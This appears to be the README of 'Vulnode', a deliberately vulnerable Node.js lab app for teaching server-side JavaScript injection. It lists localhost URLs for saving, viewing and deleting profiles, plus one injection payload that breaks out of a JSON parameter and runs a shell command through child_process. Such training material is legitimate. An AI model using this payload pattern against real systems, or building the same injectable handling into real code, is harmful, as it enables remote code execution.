 vulnode
=======

Vulnode is a Node.js application vulnerable to server-side javascript injection. This is for education purposes only.<br /><br />
<ul>
<li>Save a profile: <code>http://localhost:9091/?action=save&name=nishant&json={"name":"Nishant","age":"25","gender":"Male","location":"Bangalore","interests":"Piano"}</code></li><br />
<li>View a profile: <code>http://localhost:9091/?action=view&name=nishant</code></li><br />
<li>Delete a profile: <code>http://localhost:9091/?action=delete&name=nishant</code></li><br />
<li>Code Execution: <code>http://localhost:9091/?json='test');var sys=require('sys');var exec=require('child_process').exec;function puts(error,stdout,stderr){sys.puts(stdout)};exec("ls -lah",puts);</code></li><br />
</ul>
